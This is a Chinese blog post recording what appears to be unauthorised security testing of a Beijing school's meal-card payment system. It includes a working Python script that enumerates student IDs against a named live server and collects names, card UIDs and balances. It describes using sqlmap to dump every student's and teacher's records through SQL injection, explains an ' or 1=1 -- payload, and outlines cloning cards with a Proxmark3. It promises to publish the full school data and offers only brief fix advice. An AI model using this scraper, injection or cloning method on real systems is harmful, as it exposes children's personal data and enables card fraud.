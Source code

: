 ```yaml
---
title: 北京市育英学校 校园充值系统安全隐患分析
tags:
  - Good
url: 13630.html
id: 13630
categories:
  - School
  - 安全测试
date: 2018-05-12 23:10:40
---
```


这里我将把对于学校的饭卡充值系统安全测试的全过程写下来，做一个记录，将来留作参考 ![](https://x.wangyuyang.top/wp-content/uploads/2018/05/图片2-217x300.jpg)

0x01 抓包
-------

简直万物起始自抓包，从抓包结果来找思路看来早已经不是第一次了。 ![](https://x.wangyuyang.top/wp-content/uploads/2018/05/微信图片_20180512145117-150x300.png)

可以直接看到，返回的信息包含了姓名，ID，CardCode。一开始我还在疑惑，CardCode是什么。直到是做了下进制转换，才打开了新世纪的大门。

![](https://x.wangyuyang.top/wp-content/uploads/2018/05/图片5-300x110.png)

0x02 爬虫
-------

将CardCode字段转换为十六进制，和IC卡的UID仅仅差了一个顺序问题，那么这不就简单了。于是，借鉴之前摩拜单车的爬虫程序，稍作修改，便可以爬去所有的学生数据。（只需要遍历ID号即可）

import urllib.parse
import urllib.request
import json
import csv
import os
import time
import requests
import socket 

import urllib.request

csvFile3 = open('csvFile3.csv','w', newline='') 
writer2 = csv.writer(csvFile3)
writer2.writerow(\['ID','UID','Name',"Money","rightuid"\])

def getdata(no):
    url = 'http://www.baihecard.com:8870/wxPay/reqCardNo'
    postData = {
    "IdentityID":no
    }

    response = requests.post(url,data=postData)

    result = json.loads(response.text)
    if result\['ret'\] != \[\] :
        print ("ID:",result\['ret'\]\[0\]\["ID"\]," | UID: ",result\['ret'\]\[0\]\["CardCode"\]," | Name:",result\['ret'\]\[0\]\["Name"\]," |  Money:",result\['ret'\]\[0\]\["Money0"\])
        xxUID = hex(int(result\['ret'\]\[0\]\["CardCode"\])).split()
        a = str(xxUID\[0\])
        rightuid = str(a\[8\]+a\[9\] + a\[6\]+a\[7\] + a\[4\]+a\[5\] + a\[2\]+a\[3\])

        print(rightuid)
	
        writer2.writerow(\[result\['ret'\]\[0\]\["ID"\],result\['ret'\]\[0\]\["CardCode"\],result\['ret'\]\[0\]\["Name"\],result\['ret'\]\[0\]\["Money0"\],"'"+rightuid\])
        

for i in range(2016081800,2016081899):
    getdata(i)
    print (i)
for i in range(2016081700,2016081799):
    getdata(i)
    print (i)
for i in range(2016081900,2016081999):
    getdata(i)
    print (i)
for i in range(2016071800,2016071899):
    getdata(i)
    print (i)
for i in range(2016081600,2016081699):
    getdata(i)
    print (i)
csvFile3.close()

我们之后就得到了如下的表格（最后）

当然，如果只是这样未免太过简单，也称不上是安全隐患。于是我们继续！

0x03 SqlMap
-----------

在爬行的过程中，出现了一次意外，爬虫返回了一个异常，而内容是以SQL开头的信息。也就是说，服务器是直接吧查询语句在网页中拼接，之后直接传递到server的，必然存在注入点。所以，我打开sqlmap复制原来的数据包。 **果然：** ![](https://x.wangyuyang.top/wp-content/uploads/2018/05/图片6-300x124.png) 后台数据库**SQL Server 2008** 这里我们普及一下SQL注入的原理：

> SQL注入原理 对于WEB应用来说，用户数据等都是存储在数据库中的。SQL注入就是攻击者通过构造一些恶意的SQL查询语句，让后台的数据库去解析，从而达到入侵目标网络，获取敏感信息的攻击手段。 一个简单的数据库查询语句是这样的 SELECT first\_name, last\_name FROM users WHERE user\_id = '$id' 在【users】这个表中查询【user\_id 】等于【1】（我们在网页上输入的值）的【first\_name】和【 last\_name】。 错误回显是通数据库的报错信息来获取一些数据库的基本信息。错误回显最基础的注入就是单引号【'】 SELECT first\_name, last\_name FROM users WHERE user\_id = ''' ' or 1=1 -- ' #单引号【'】提前闭合了对于id的查询，然后构造【1=1】恒为正确的情况，【-- 】注释了后面的SQL语句 可能不太明显，最后【user\_id = '''】这里搜索的值是【'】，这里是提前闭合了这个SQL语句，导致多了一个【'】出来。只要语句有一点错误，数据库都不会接受这个语句，所以数据库报错，并返回错误信息。 SELECT first\_name, last\_name FROM users WHERE user_id = '' or 1=1 -- ' ' 分析MYSQL语句，查询ID=空（其实是什么都无所谓）【'】闭合前面的SQL了，【or】（或者）1=1，后面注释掉，不匹配。那么数据库在ID列一个个往下对比数据的时候，无论是否匹配成功，都会被后面【1=1】的TRUE强行匹配成功，所以就把所有可以返回的用户及密码都显示在页面上了。

![](https://x.wangyuyang.top/wp-content/uploads/2018/05/微信图片_20180516220801-300x225.jpg) 这样通过dump数据表，我们发现Main表中是所有学生和老师的金额信息。于是我们将其导出。并进行一次小的分析，这里先只放处理过后的数据，全校的数据我们将放在文章最后。 至此，分析工作结束。

0x04 模拟
-------

要知道，得到了CardCode等于得到了UID，如果我们用Proxmark3将其写入其他的卡中，我们就可以模拟任何一个人的卡片。 况且我们发现，学校的刷卡机**仅仅校验卡片的UID**，有较大风险。 ![](https://x.wangyuyang.top/wp-content/uploads/2018/05/Capture-2-300x191.jpg) 希望网站管理员尽快修复漏洞，以防止造成更大危害~

0x05 修复建议
---------

通过分析发现，网页的呈现是在8860端口，而数据库查询实在8870端口。后端程序使用的是Node.js那么可以在8870端口得到POST的表单后，先使用正则表达式或其他方式对非法参数进行过滤再拼接数据库指令。 同样，可以增加安全狗之类的服务器安全软件，毕竟安全第一，一年的维护费不会很高。而且保护效果会更好一些。

0x06 消费喜好分析
-----------

这个部分是后加入的，目前只做了一点小的分析。 之后我们将做更多深入的分析： ![](https://x.wangyuyang.top/wp-content/uploads/2018/05/图片8-300x169.png)